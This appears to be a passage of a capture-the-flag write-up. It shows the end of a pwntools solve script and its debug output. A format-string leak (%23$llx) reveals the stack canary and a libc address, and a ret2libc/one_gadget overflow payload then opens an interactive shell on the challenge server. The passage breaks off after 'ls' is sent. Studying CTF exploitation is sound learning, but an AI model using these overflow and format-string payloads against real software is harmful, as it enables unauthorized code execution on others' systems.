 ```python

# ---RET2LIBC---
payload = "A"*72 + p64(canary) + p64(0x0) + p64(one_gadget)
p.sendline(payload)
p.interactive()
```

OUTPUT:
```console
┌──(kali㉿kali)-[~/Desktop/pwn/foobar_ctf]
└─$ python2 solve.py                          
[+] Opening connection to chall.nitdgplug.org on port 30091: Done
[DEBUG] Received 0x1e bytes:
    'Can you help find the Canary ?'
[DEBUG] Received 0x1 bytes:
    '\n'
[DEBUG] Sent 0xf bytes:
    '%23$llx%20$llx\n'
[DEBUG] Received 0x1d bytes:
    '83464ac6a13fb60055f794b212e0\n'
[DEBUG] Sent 0x79 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  00 b6 3f a1  c6 4a 46 83  │AAAA│AAAA│··?·│·JF·│
    00000050  00 00 00 00  00 00 00 00  43 13 b2 94  f7 55 00 00  │····│····│C···│·U··│
    00000060  a0 3f b2 94  f7 55 00 00  b0 10 b2 94  f7 55 00 00  │·?··│·U··│····│·U··│
    00000070  a5 12 b2 94  f7 55 00 00  0a                        │····│·U··│·│
    00000079
[DEBUG] Received 0x48 bytes:
    'A' * 0x48
[DEBUG] Received 0x27 bytes:
    00000000  0a 50 a4 fb  92 b2 7f 0a  43 61 6e 20  79 6f 75 20  │·P··│····│Can │you │
    00000010  68 65 6c 70  20 66 69 6e  64 20 74 68  65 20 43 61  │help│ fin│d th│e Ca│
    00000020  6e 61 72 79  20 3f 0a                               │nary│ ?·│
    00000027
[*] Puts Libc Address: 0x7fb292fba450
[DEBUG] Sent 0x8 bytes:
    '%23$llx\n'
[DEBUG] Received 0x11 bytes:
    '83464ac6a13fb600\n'
[DEBUG] Sent 0x61 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  00 b6 3f a1  c6 4a 46 83  │AAAA│AAAA│··?·│·JF·│
    00000050  00 00 00 00  00 00 00 00  31 9b 01 93  b2 7f 00 00  │····│····│1···│····│
    00000060  0a                                                  │·│
    00000061
[*] Switching to interactive mode

[DEBUG] Received 0x48 bytes:
    'A' * 0x48
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[DEBUG] Received 0x1 bytes:
    '\n'

$ whoami
[DEBUG] Sent 0x7 bytes:
    'whoami\n'
[DEBUG] Received 0x6 bytes:
    'error\n'
error
$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0xf bytes:
```